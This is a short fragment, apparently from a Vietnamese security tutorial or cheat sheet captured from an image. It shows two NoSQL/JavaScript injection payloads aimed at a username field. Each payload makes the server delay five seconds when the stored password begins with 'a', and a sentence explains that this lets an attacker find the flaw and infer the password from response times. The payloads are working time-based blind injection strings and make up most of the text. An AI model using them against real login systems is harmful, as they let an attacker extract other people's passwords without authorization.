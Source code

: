     admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'

hoặc

    admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'

Payload trên sử dụng `JavaScript` để tạo ra sự trì hoãn khi điều kiện được đáp ứng (mật khẩu bắt đầu bằng chữ "a"), giúp xác định lỗ hổng bảo mật bằng cách quan sát sự thay đổi về thời gian phản hồi.













































